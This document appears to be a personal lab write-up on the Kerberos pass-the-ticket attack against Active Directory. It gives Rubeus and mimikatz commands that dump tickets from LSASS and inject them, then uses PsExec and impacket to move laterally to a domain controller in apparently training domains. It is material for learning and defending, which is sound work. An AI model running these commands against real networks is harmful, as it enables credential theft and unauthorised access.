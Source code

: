 
To see : 
[[Kerberos]]

Source : 
https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/pass-the-ticket
https://www.thehacker.recipes/a-d/movement/kerberos/ptt

https://attack.mitre.org/techniques/T1550/003/

Kerberos

rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt

rubeus.exe ptt /ticket:

### Step of pass the tickets attack

Extract the TGT from the LSASS memory 
	▪ This requires the seDebugPrivilege 
	▪ Requires that the targeted identity has cached its credentials 
Inject the TGT into your current session 
	▪ Either locally, or later on other systems by exporting it to a file 
	▪ The “new” ticket is used to request new service tickets 
Does not trigger any failed authentication attempts

This is possible because the hash is in the memory Needed for Single Sign-On


Attack’s pre-requisites 
	A victim is connected to the system, or a service is running under a user account - seDebugPrivilege, or LSASS memory dump 
Protection
	 Healthy administration practices (do not connect to untrusted systems with privileged accounts, use RDP restricted mode or remote credential guard)



## Details : Step of pass-the-ticket attack

Try to steal the TGT of a privileged account to impersonate his or her on other system without knowing her password.

### Extract the TGT from the LSASS memory : Export tickets out of SRV

 `psexec.exe \\SRV01 cmd.exe -accepteula`

```powershell
rubeus.exe dump /user:katrina.mendoza.adm /service:krbtgt
```

Result : 
![[Pasted image 20231024213403.png]]

Save the result in `C:\Users\Public\tgt.txt`

```powershell
# Using mimikatz
sekurlsa::tickets /export
# Using Rubeus
## Dump all tickets
.\Rubeus dump
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))

## List all tickets
.\Rubeus.exe triage
## Dump the interesting one by luid
.\Rubeus.exe dump /service:krbtgt /luid:<luid> /nowrap
[IO.File]::WriteAllBytes("ticket.kirbi", [Convert]::FromBase64String("<BASE64_TICKET>"))
```



### Inject the TGT into your current session : Inject stolen tickets into memory

Put the base64 ticket into your clipboard.
In the **Windows Terminal** window, run 
`(Get-Content C:\Users\Public\tgt.txt) -join "" -replace " " | clip`.

Run `klist`.
It should return a bunch of Kerberos ticket. The one for your current session. Note that all of them are for the Client: red @ CONTOSO.COM. Those tickets were obtains thanks to our TGT. You can see the TGT by running klist tgt. It should look like this: 
![[Pasted image 20231024213850.png]]

`rubeus.exe ptt /ticket:<The-ticket>` 

It should look like this: ![v2nlpjjb.png](https://labondemand.blob.core.windows.net/content/lab127288/v2nlpjjb.png)

```powershell
.\Rubeus.exe ptt /ticket:[0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi
```

or mimikatz

```powershell
mimikatz.exe "kerberos::ptt [0;28419fe]-2-1-40e00000-trex@krbtgt-JURASSIC.PARK.kirbi"
```

```powershell
klist #List tickets in cache to check that mimikatz has loaded the ticket
.\PsExec.exe -accepteula \\lab-wdc01.jurassic.park cmd
```

All your tickets are gone and being replaced by the one you've stolen from SRV01.
 
In the same console, try again to browse the C$ share of a domain controller by running `dir \\DC01\C$`.
You now have three tickets:
![[Pasted image 20231024213937.png]]

In linux 

```bash
export KRB5CCNAME=/root/impacket-examples/krb5cc_1120601113_ZFxZpK 
python psexec.py jurassic.park/trex@labwws02.jurassic.park -k -no-pass
```

